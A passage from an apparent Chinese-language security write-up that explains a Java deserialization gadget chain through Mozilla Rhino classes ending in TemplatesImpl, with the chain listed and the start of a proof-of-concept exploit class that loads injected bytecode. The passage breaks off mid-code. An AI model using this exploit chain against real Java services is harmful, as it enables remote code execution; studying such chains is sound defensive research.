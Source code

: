
作者最终找到的是`NativeJavaObject`类，继承了`Scriptable, Wrapper, Serializable`三个类，满足了进入`unwrap()`的条件，并且这个`unwrap()`方法直接返回`javaObject`，`javaObject`也由`transient`修饰，但是在`NativeJavaObject`类中自定义了`read/writeObject()`能够保存`javaObject`

[![](assets/1706145875-b76963af5b785597caf789946c5da9f6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240122223404-4a9d7f34-b933-1.png)

至此整条链就形成了，通过`NativeError#toString()`触发`NativeJavaMethod#call()`，通过`NativeJavaObject#unwrap()`返回`TemplatesImpl`对象控制`javaObject`最终利用`MemberBox#invoke()`反射执行恶意类。

Gadgets 如下：

```bash
BadAttributeValueExpException.readObject()
    NativeError.toString()
        ScriptableObject.getProperty()
            ScriptableObject.getImpl()
                NativeJavaMethod.call()
                    NativeJavaObject.unwrap()
                        MemberBox.invoke()
                            TemplatesImpl.newTransformer()
```

poc 如下：

```bash
package com.example.rhino;

import com.caucho.quercus.annotation.Construct;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import javassist.CannotCompileException;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.NotFoundException;
import org.mozilla.javascript.*;

import javax.management.BadAttributeValueExpException;
import java.io.*;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.Method;
import java.util.Base64;

public class Rhino1 {
    public static void main(String[] args) throws Exception {
        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates, "_bytecodes", new byte[][]{getTemplates()});
        setFieldValue(templates, "_name", "aiwin");
        setFieldValue(templates, "_tfactory", null);
        Class<?> NativeErrorClass=Class.forName("org.mozilla.javascript.NativeError");
        Constructor<?> constructor=NativeErrorClass.getDeclaredConstructor();
        constructor.setAccessible(true);
        Scriptable NativeError= (Scriptable) constructor.newInstance();


        //初始化javaObject,使unwrap()返回TemplatesImpl对象,同时完整初始化为了满足initMembers()不报错
        Context context          = Context.enter();
        NativeObject scriptableObject = (NativeObject) context.initStandardObjects(); //设置一个JavaScript环境
        NativeJavaObject nativeJavaObject=new NativeJavaObject(scriptableObject,templates,TemplatesImpl.class);
```